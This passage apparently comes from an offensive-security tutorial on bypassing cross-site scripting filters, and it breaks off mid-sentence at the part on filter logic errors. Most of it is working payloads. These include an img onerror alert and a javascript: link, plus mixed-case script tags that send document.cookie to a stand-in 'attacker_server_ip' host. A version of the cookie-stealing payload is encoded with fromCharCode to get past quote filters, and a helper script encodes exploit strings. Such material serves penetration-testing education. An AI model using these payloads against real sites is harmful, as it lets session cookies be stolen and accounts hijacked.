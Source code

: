 Use:

    <img src="odear" onerror="alert('Hello World');"/>

And this snippet will create a `Click me!` link that will generate an alert box when clicked:

    <a href="javascript:alert('Hello World')>Click me!</a>"

Capitalisation and encoding: You can also try mixing different encodings and capitalisations to confuse the XSS filter. If the filter filters for only the string "script", capitalise some letters in the payload. Browsers often parse HTML code permissively and will allow for minor syntax issues like capitalisation, and as a result, this will not affect how the script tag is interpreted:

    <scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>

If the application filters special HTML characters, like single and double quotes, you can not write any strings into your XSS payload directly.

You can try using the JavaScript `fromCharCode()` function to create the string you need. For example, this piece of code is equivalent to the string `http://attacker_server_ip/?c=`:

    String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107,
    101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)

And construct an XSS payload without quotes:

    <scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47,
    47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118,
    101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>

Use this code to translate an exploit string to an ASCII number sequence (using an online JavaScript editor, like [js.do](https://js.do/)):

    <script>
    function ascii(c){
        return c.charCodeAt();
    }
    encoded = "INPUT_STRING".split("").map(ascii);
    document.write(encoded);
    </script>

For example, translating the script with payload `http://attacker_server_ip/?c=`:

    <script>
    function ascii(c){
    return c.charCodeAt();
    }
    encoded = "http://attacker_server_ip/?c=".split("").map(ascii);
    document.write(encoded);
    </script>

This JavaScript code should print out `104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61`. You can then use it to construct the payload by using the `fromCharCode()` method.

Filter Logic Errors: You can also exploit any errors in the filter logic. For example, sometimes applications remove all `script` tags in the user input to prevent XSS, but do it only once. If that’s the case, you can use a payload like this:

